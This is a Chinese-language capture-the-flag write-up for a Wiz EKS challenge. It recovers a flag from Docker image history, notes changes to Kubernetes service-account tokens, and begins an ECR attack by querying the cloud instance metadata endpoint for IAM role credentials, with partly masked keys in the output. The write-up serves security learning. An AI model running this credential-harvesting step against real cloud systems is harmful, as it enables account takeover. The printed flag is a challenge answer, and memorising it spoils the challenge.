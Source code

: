审计整个 image 创建历史

```bash
 docker history  add093cd268d --no-trunc
# no trunc 防止过长的字符串被切割成小段
IMAGE                                                                     CREATED        CREATED BY                                                                                                                                                            SIZE      COMMENT
sha256:add093cd268deb7817aee1887b620628211a04e8733d22ab5c910f3b6cc91867   4 days ago     CMD ["/bin/sleep" "3133337"]                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 4 days ago     RUN sh -c echo 'wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}' > /flag.txt # buildkit   124B      buildkit.dockerfile.v0
<missing>                                                                 3 months ago   /bin/sh -c #(nop)  CMD ["sh"]                                                                                                                                         0B
<missing>                                                                 3 months ago   /bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in /                                                                      4.26MB
```


```
wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}
```

### Other found

#### Kubernetes service account changes with version

- 1.20（含 1.20）之前的版本，在创建 sa 时会自动创建一个 secret，然后这个会把这个 secret 通过投射卷挂载到 pod 里，该 secret 里面包含的 token 是永久有效的。
- 1.21~1.23 版本，在创建 sa 时也会自动创建 secret，但是在 pod 里并不会使用 secret 里的 token，而是由 kubelet 到 TokenRequest API 去申请一个 token，该 token 默认有效期为一年，但是 pod 每一个小时会更新一次 token。
- 1.24 版本及以上，在创建 sa 时不再自动创建 secret 了，只保留由 kubelet 到 TokenRequest API 去申请 token

## Level3: Attack ECR

这里我们具有的权限为：

```yaml
pod: [get, list]

# but we are in the EKS and aws
```

需要注意的是 **我们当前环境存在于 pod 中，而 pod 存在于 eks 中，也在 aws 上** ，这意味着我们可以尝试探索一下 是否存在 eks 绑定 role 的情况。

通过探测 `http://169.254.169.254/latest/meta-data/iam/security-credentials/` 可以获知以下 endpoint

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
{"AccessKeyId":"ASIA2A[AKID]XMYUFF5J","Expiration":"2023-11-03 10:24:09+00:00","SecretAccessKey":"YPaIqb[AKSK]+I3nF","SessionToken":"FwoGZX[LONG ST]NrD6dG"}
```
